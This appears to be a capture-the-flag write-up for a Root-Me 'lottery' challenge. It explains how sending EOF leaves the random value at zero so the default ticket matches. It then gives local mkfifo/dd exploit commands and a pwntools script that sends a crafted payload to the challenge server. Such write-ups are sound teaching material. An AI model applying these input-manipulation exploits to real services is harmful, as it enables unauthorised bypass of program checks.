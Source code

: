 ### Exploitation plan:
- For the user's ticket, read 0 characters by sending an EOF with a certain technic.
- This will make `lottery_data.rng` equal to 0.
- `rollLottery()` then queries the user to enter a ticket: give the default ticket since `lottery_data.ticket` is never changed.
- `memcmp` compares the default ticket with the user's input which is still the default ticket : Get the flag.


## Exploitation
Local exploitation:
```
mkfifo input_pipe

# Run program in background
./lottery < input_pipe &

# Send first input
# dd if=/dev/null of=input_pipe bs=1 count=0    # Signal EOF
dd if=<(echo -n "I agree\n25\n\n") of=input_pipe  # Send first input
dd if=/dev/null of=input_pipe bs=1 count=0    # Send EOF for second read
dd if=/dev/null of=input_pipe bs=1 count=0    # Send EOF for second read
dd if=/dev/null of=input_pipe bs=1 count=0    # Send EOF for second read
dd if=/dev/null of=input_pipe bs=1 count=0    # Send EOF for second read
dd if=/dev/null of=input_pipe bs=1 count=0    # Send EOF for second read
dd if=/dev/null of=input_pipe bs=1 count=0    # Send EOF for second read
dd if=/dev/null of=input_pipe bs=1 count=0    # Send EOF for second read
dd if=/dev/null of=input_pipe bs=1 count=0    # Send EOF for second read
dd if=/dev/null of=input_pipe bs=1 count=0    # Send EOF for second read
dd if=<(echo -n "ROOT-ME-DEFAULT-LOTTERY-TICKET") of=input_pipe
# Clean up
rm input_pipe
```

Remote exploitation:
```
from pwn import *

p = remote("challenges.ctf20k.root-me.org 11001", 11001)

p.recv()

payload = b"I agree\x00" + b"x"*24
payload += b"ROOT-ME-DEFAULT-LOTTERY-TICKET\x00"
p.sendline(payload)

p.recvuntil(b"your age: ")
p.sendline(b"77")

p.recvuntil(b"your lottery ticket: ")
# shutdown <=> EOF
p.shutdown('send')

p.interactive()
```
